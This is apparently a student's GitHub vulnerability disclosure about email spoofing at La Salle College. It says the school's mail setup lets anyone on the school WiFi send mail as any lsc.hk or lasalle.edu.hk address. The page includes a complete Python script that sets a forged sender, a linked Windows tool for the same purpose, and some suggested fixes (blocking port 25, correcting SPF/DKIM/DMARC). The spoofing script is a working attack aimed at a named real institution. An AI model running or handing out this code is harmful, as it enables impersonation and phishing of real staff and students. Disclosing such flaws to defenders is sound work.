 > [!CAUTION]
> If anyone uses the following materials to do things that are either illegal or violating school rules (e.g. Breaching School Security), Lee Perseus Robin will not pay ANY responsibility to that.
## What is the Vulnerability?
The vulnerability is at the College's email system, as La Salle College is using a "No Authorization" SMTP server (aspmx.l.google.com);
With the school WiFi, anyone can easily write an email from any valid email address under [lsc.hk](http://lsc.hk/) or [lasalle.edu.hk](http://lasalle.edu.hk/) and send it to anyone with an email address.
## What can the Vulnerability acheive?
As illustrated above, the exploit allows attackers to spoof any email address under the domain [lsc.hk](http://lsc.hk/) and [lasalle.edu.hk](http://lasalle.edu.hk/), e.g. [test@lsc.hk](mailto:test@lsc.hk).
## How to execute the Vulnerability?
Windows Version: [Sendemail (Only in LSC, beta).zip](https://github.com/user-attachments/files/17656203/Sendemail.Only.in.LSC.beta.zip)

Python Version (Demonstration only):
```
import smtplib
from email.mime.text import MIMEText

username = "test@lasalle.edu.hk"

fake_from = input("Enter the email address which you would like to pretent: ")

fake_name = input("Enter the name which you would like to pretent: ")

to_email = input("Enter the email address of the recipient: ")

to_name = input("Enter the name of the recipient: ")

subject = input("Subject of email: ")

# Replace '\n' with actual line breaks in HTML
content = input("Content of email (use '\\n' for line breaks): ").replace('\\n', '<br>')

# Create the HTML message
message = MIMEText(content, 'html')
message['From'] = f"{fake_name} <{fake_from}>"
message['To'] = f"{to_name} <{to_email}>"
message['Subject'] = subject

# Connect to the server and send the email
server = smtplib.SMTP("aspmx.l.google.com", 25)
server.starttls()
server.sendmail(username, to_email, message.as_string())
server.close()
```
## Who discovered the Vulnerability?
The flaw is found by Lee Perseus Robin (2G - 16) and others improved his Python code to support new lines.

## How to fix the Vulnerability?
To temporarily mitigate these types of attacks, the school can implement the following measures:
1. Blocking Port 25 on all networks
2. Fix the SPF, DKIM and DMARC issues in the DNS system of the school's domain(s).
For a permanent solution, I recommend consulting a penetration tester to conduct a comprehensive security assessment of the school's systems.

## How to contact us to get more information about the Vulnerability?
If you have any questions or require further information, please feel free to reach out to me at [perseus@lscstudy.us.kg](mailto:perseus@lscstudy.us.kg), [s23218@lsc.hk](mailto:s23218@lsc.hk) or perseusrobin@gmail.com.

### Examples:
![image](https://github.com/user-attachments/assets/228cc297-306e-48c1-a93f-76f8e8ba4c56)